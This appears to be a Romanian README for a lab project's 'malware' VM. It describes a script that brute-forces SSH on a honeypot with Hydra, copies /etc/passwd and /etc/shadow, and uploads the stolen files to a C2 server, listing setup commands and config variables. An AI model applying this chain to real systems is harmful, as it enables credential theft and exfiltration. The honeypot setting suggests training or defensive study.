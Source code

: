 # Malware VM Setup

Acest README descrie setup-ul necesar pentru rularea scriptului de malware care se conectează la VM-ul HoneypotProxy și trimite fișiere către serverul C2.

---

## 1. Dependențe Python

Scriptul folosește următoarele librării Python:

- `paramiko` – pentru SSH
- `requests` – pentru upload către serverul C2

Instalează-le astfel:

```bash
sudo apt update
sudo apt install python3-pip -y
pip3 install paramiko requests
````

---

## 2. Hydra

Scriptul foloseste Hydra pentru a afla parola SSH:

```bash
sudo apt install hydra -y
```

* Asigură-te că fișierul de parole (`/path/to/passwords.txt`) există și conține parolele pe care vrei să le testezi.

---

## 3. Certificate pentru HTTPS

Pentru a putea descărca pagini și a urca fișiere pe C2 prin HTTPS fără a dezactiva verificarea SSL (verify=False), trebuie să instalezi certificatele auto-semnate pe VM-ul Malware.

Copiază certificatul de la mitmproxy (dacă e folosit pe HoneypotProxy):
```bash
sudo scp <HONEYPOT_USER>@<HONEYPOT_IP>:/path/to/mitmproxy-ca-cert.pem /usr/local/share/ca-certificates/mitmproxy-ca.crt
```

Copiază certificatul de la C2 server:
```bash
sudo scp <C2_USER>@<C2_IP>:/path/to/c2server-ca.pem /usr/local/share/ca-certificates/c2server-ca.crt
```

Actualizează store-ul de certificate:
```bash
sudo update-ca-certificates
```

Verifică că certificatele sunt recunoscute:
```bash
ls -l /etc/ssl/certs | grep c2server
ls -l /etc/ssl/certs | grep mitmproxy
```

## 4. Configurarea scriptului

Editează variabilele din scriptul `malware_script.py`:

```python
HONEYPOT_HOST = "<IP_HONEYPOTPROXY>"         # IP-ul HoneypotProxy
HONEYPOT_USER = "honeypotproxy"         # User valid pe HoneypotProxy
REMOTE_FILES = ["/etc/passwd", "/etc/shadow"]  # Fișiere de extras
C2_URL = "https://<IP_C2SERVER>:5000/upload"  # URL-ul serverului C2

# Path către certificatele instalate
MITM_CA_PATH = "/usr/local/share/ca-certificates/mitmproxy-ca.crt"
C2SERVER_CA_PATH = "/usr/local/share/ca-certificates/c2server-ca.crt"

# Fișierele descărcate de pe pagini web
DOWNLOAD_DIR = "downloaded_pages"
URLS_FILE = "/home/malware/proiect-practica/malware/url_list.txt"  # optional
```

---

## 5. Rulare script

Rulează manual scriptul:

```bash
python3 malware_script.py
```

* Scriptul va:

  1. Rula Hydra pentru a afla parola SSH.
  2. Conecta la HoneypotProxy prin SSH și explora structura sistemului de fișiere.
  3. Descărca fișierele specificate (`REMOTE_FILE`).
  4. Descărca paginile listate în URL_LIST sau în url_list.txt
  5. Trimite toate fișierele colectate către serverul C2 prin HTTPS folosind certificatele auto-semnate instalate.

---

## 6. Rețea și firewall

* Asigură-te că VM-ul malware poate accesa HoneypotProxy pe **portul 22 (SSH)**.
* Dacă serverul C2 este local, asigură-te că portul 5000 nu e blocat de firewall.

---

## 7. Fișiere rezultate

* `filesystem_map.txt` – structura sistemului de fișiere explorată.
* `passwd` – fișierul copiat de pe HoneypotProxy.
* 'downloaded_pages/' – paginile web descărcate.

